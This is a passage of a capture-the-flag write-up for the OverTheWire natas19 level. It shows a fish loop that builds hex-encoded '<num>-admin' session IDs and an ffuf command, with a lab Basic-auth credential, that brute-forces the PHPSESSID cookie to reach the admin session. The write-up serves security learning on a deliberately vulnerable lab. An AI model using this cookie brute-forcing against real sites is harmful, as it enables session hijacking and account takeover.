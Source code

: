 We need to login as admin so we can guess to cookie should be `<num>-admin`
Also i guessed that the number might still be up to 640, so i created a simple wordlist again with numbers 1-640 and added `-admin` to the end of each, then hex encoded all.

Now i can bruteforce the cookie with `ffuf` as i did in the previous challenge

Creating wordlist (fish):

```bash
for i in (seq 640)
	set str $i-admin
	set hex (echo -n $str | xxd -pu)
	echo $hex
end > wordlist.txt
```
	
![](images/Pasted image 20210318175331.png)

Bruteforce with `ffuf`:
`ffuf -u http://natas19.natas.labs.overthewire.org/index.php -H "Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==" -b "PHPSESSID=FUZZ" -w wordlist.txt -fs 1050`

And i got a different response size with the cookie `3238312d61646d696e`

Set it as my cookie and got the natas20 password